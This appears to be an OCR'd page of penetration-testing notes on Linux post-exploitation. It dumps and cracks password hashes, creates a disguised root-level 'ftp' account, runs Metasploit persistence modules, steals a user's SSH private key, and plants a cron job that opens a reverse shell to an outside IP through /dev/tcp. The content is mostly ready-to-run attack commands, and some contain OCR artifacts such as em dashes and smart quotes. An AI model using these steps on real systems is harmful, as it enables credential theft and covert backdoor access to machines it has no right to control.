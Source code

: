 #### Metasploit
```
sessions -u 1
search hashdump (post/linux/gather/hashdump)
```
```
john —format=sha512crypt hash.txt —wordlist=/usr/share/wordlists/rockyou.txt
hashcat -a 3 -m 1800 hash /usr/share/wordlists/rockyou.txt
```
### Linux - Establish persistence

#### New root User

We need root access.
```
cat /etc/passwd
useradd -m ftp -s /bin/bash
passwd ftp
usermod -aG root ftp
usermod -u 15 ftp
```
These commands created a root user to access the SSH service, which appears to be legitimate.

#### Metasploit
```
search persistence platform:linux
apt_package_manager_persistence
cron_persistence
service persistence
sshkey_persistence
```
```
sshkey_persistence
set CREATESSHFOLDER true
set SESSION
run
```
If the username is empty, this mdule create the certificate for all the users.
```
vim ssh_key
chmod 0400 ssh_key
ssh -i ssh_key root@10.10.10.1
```
### Via SSH Keys
```
ssh account@10.10.10.1
cd .ssh/
id_rsa - where the private key is stored
scp student@10.10.10.1:~/.ssh/id_rsa .
chmod 400 id_rsa
ssh -i id_rsa student@10.10.10.1
```
### Persistence via CronJobs
```
ssh account@10.10.10.1
cat /etc/cron*
cat /etc/crontab
echo “* * * * * /bin/bash -c ‘bash -i >& /dev/tcp/192.164.224.2/1234 0>&1’” > cron - i 5
crontab -i cron
```
